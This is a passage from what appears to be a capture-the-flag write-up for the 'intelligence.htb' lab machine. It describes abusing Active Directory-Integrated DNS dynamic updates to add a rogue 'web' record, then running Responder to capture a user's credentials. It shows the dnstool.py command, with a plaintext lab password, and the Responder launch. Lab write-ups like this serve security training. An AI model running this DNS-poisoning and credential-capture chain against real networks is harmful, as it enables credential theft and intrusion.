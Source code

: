 ![Internal IT Update PDF](web3.png)

After a bit of research, it appears that the script utilizes Active Directory-Integrated DNS (ADIDNS), which might be exploitable in combination with the gift that keeps on giving: Responder. Essentially, any valid domain user can add a record to the DNS server by taking advantage of the insecure-by-default configurations of DNS dynamic updates. So long as a DNS record does not currently exist for a given domain, any valid domain user can create a domain record within the DNS server. For the purpose of exploiting this script, I can create a subdomain of `intelligence.htb` that begins with `web`. After doing so, the `Ted.Graves` user should attempt to connect to our domain and provide his credentials along with it. By running Responder, I should be able to catch the credentials coming across the wire:
```shell
┌──(kali@kali)-[/opt]
└─$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --record 'webbyboy.intelligence.htb' --action add --data 10.10.14.22 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/opt/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
    res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```
```shell
┌──(kali@kali)-[/opt]
└─$ sudo responder -I tun0 -A -w
                                            __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                    |__|

            NBT-NS, LLMNR & MDNS Responder 3.0.6.0
```